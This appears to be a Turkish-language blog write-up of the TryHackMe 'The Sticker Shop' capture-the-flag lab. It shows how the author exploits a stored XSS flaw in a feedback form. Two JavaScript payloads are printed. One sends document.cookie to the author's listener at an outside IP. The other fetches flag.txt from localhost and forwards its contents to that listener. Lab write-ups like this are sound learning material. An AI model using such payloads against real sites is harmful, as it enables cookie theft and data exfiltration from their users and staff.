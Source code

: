 ```yaml
---
title: 'TryHackMe | The Sticker Shop WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [xss]
render_with_liquid: false
media_subpath: /images/tryhackme_the_sticker_shop/
image:
  path: logo.webp
---
```


Bu yazımda TryHackMe platformunda bulunan “The Sticker Shop” isimli meydan okumanın çözümünü göstereceğim. Kendisi basit seviye bir meydan okumadır ve yapılması gerekenler kısmen belirtilmiştir.

Bulunması gereken tek bir bayrak olduğundan bu meydan okumayı tek hamlede bitireceğiz. Öncelikle bize bayrağın konumunun verildiğini söylemeliyim. Ancak görüntülemeye çalıştığımızda yetkimiz olmadığı için 401 hatasını veriyor.

![](1.webp){: width="1200" height="500" }

Bayrağı nasıl ele geçirebileceğimizi öğrenmek için web uygulaması hakkında biraz bilgiye sahip olmamız gerekiyor. Ana sayfaya döndüğümüzde bir geri bildirim sayfası ile karşılaşıyoruz.

![](2.webp){: width="1200" height="600" }

Nasıl çalıştığını anlamak için rastgele bir şeyler yazdım ve gönderdim. Sonucunda ise mesajın bir çalışana gönderildiğini ve yakın zamanda kontrol edeceğini öğrendim.

Daha sonra XSS açığının olup olmadığını kontrol etmek için netcat ile 8080 portunu dinlemeye aldım ve aşağıdaki javascript kodunu geri bildirim sayfasıyla gönderdim.

```js
<script>fetch('http://10.21.66.61:8080/?=' + document.cookie)</script>
```

Bildirimlerin okunduğu sayfada XSS zafiyeti bulunuyorsa eğer bu javascript kodu ile hem bildirimlerin okunduğu sayfanın yolunu öğrenebilir hem de cookie bilgilerini alabilirdik. Ancak iki bilgiyide elde edemiyoruz.

![](3.webp){: width="1200" height="600" }

En azından XSS zafiyetinin varlığından haberdar olmuş olduk. Anladığım kadarıyla hedef dosyayı yerel ağdan çekmemiz gerekiyor. Bunun içinde XSS zafiyetinden yararlanmalıyız. Javascript’ten pek anlamadığım için internet üzerinden bir arama yaptım ve aşağıdaki kodu buldum.

```js
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://10.21.66.61:8080/?=' + data);
    });
</script>
```

Bu kod personelin sayfasında çalıştığında, önce yerel ağ üzerinden bayrağı alacak daha sonra ise dinlemiş olduğum port’a iletecek.

![](4.webp){: width="1200" height="600" }

Bu şekilde kolay bir meydan okumayı daha bitirmiş olduk. Okuduğunuz için teşekkür ederim.
